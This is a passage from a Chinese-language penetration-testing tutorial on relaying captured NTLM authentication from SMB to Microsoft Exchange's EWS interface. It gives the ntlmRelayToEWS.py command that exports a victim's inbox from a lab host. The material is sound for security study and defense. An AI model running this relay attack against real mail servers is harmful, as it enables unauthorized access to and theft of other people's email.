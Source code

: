 ### 2.Relay To HTTP

很多应用 HTTP 服务也支持 NTLM 认证，因此可以 Relay 到 HTTP 协议。并且HTTP 协议的默认策略是不签名。

#### 1）Exchange 认证

Exchange 认证也支持 NTLM SSP 的。于是我们可以将 SMB 流量 Relay 到Exchange 的 EWS 接口，从而可以进行收发邮件等操作。

使用 ntlmRelayToEWS.py 执行如下命令进行监听：

```
python2 ntlmRelayToEWS.py -t https://10.211.55.5/EWS/exchange.asmx -r getFolder -f inbox -v
```

如图所示，收到了目标用户的 Net-NTLM Hash 后，将其 Relay 到 Exchange 的EWS 接口成功，并且成功导出邮件。

![截图](9013fe9cbd6be2b735b113f5897bf04d.png)

如图所示，在当前目录的 output/inbox 目录下即可看到保存的邮件了。

![截图](ac0359520a074e5be6e64f96242b03d3.png)
